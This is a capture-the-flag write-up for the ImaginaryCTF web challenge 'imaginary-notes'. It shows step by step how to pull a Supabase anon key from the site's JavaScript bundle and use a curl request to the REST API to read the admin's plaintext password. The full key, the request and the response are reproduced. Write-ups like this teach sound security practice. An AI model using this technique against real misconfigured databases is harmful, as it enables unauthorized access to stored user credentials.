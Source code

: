 ## Challenge Writeup: imaginary-notes

**Category:** Web

### Challenge Description

The challenge provided a note-taking web app hosted at:

```
http://imaginary-notes.chal.imaginaryctf.org
```

The description hinted that:

* The **flag** is stored as the password for the `admin` account.
* The backend uses **Supabase**.
* An **anonymous key (anon key)** is somewhere in the frontend.
* The table storing passwords is called `users`.

---

### Step 1: Inspecting the Frontend for the Anon Key

Supabase projects use a public `anon key` to allow client-side code to interact with the database.

1. Open the website in a browser.
2. Open **Developer Tools → Sources tab**.
3. Search for JS files:

In the JS bundle (`http://imaginary-notes.chal.imaginaryctf.org/_next/static/chunks/app/page-d6e80645a3072dd9.js`), I found:

```js
        a(5647).UU)("https://dpyxnwiuwzahkxuxrojp.supabase.co", "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6ImRweXhud2l1d3phaGt4dXhyb2pwIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NTE3NjA1MDcsImV4cCI6MjA2NzMzNjUwN30.C3-ninSkfw0RF3ZHJd25MpncuBdEVUmWpMLZgPZ-rqI");
);
```

From this code we get the following details:

* **Project URL:** `https://dpyxnwiuwzahkxuxrojp.supabase.co`
* **Anon key:** eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6ImRweXhud2l1d3phaGt4dXhyb2pwIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NTE3NjA1MDcsImV4cCI6MjA2NzMzNjUwN30.C3-ninSkfw0RF3ZHJd25MpncuBdEVUmWpMLZgPZ-rqI

---

### Step 2: Querying the `users` Table

With the anon key, the Supabase REST API allows us to query tables directly.

**Target:** `users` table, filter for `username = admin`.

```bash
curl "https://dpyxnwiuwzahkxuxrojp.supabase.co/rest/v1/users?username=eq.admin" \
  -H "apikey: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6ImRweXhud2l1d3phaGt4dXhyb2pwIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NTE3NjA1MDcsImV4cCI6MjA2NzMzNjUwN30.C3-ninSkfw0RF3ZHJd25MpncuBdEVUmWpMLZgPZ-rqI" \
  -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6ImRweXhud2l1d3phaGt4dXhyb2pwIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NTE3NjA1MDcsImV4cCI6MjA2NzMzNjUwN30.C3-ninSkfw0RF3ZHJd25MpncuBdEVUmWpMLZgPZ-rqI" \
  -H "Accept: application/json"
```
**Response:**

```json
[
  {
    "id":"5df6d541-c05e-4630-a862-8c23ec2b5fa9",
    "username":"admin",
    "password":"ictf{why_d1d_1_g1v3_u_my_@p1_k3y???}"
  }
]
```

The `"password"` field contains the **flag**.

---

### Step 3: Flag

```
ictf{why_d1d_1_g1v3_u_my_@p1_k3y???}
```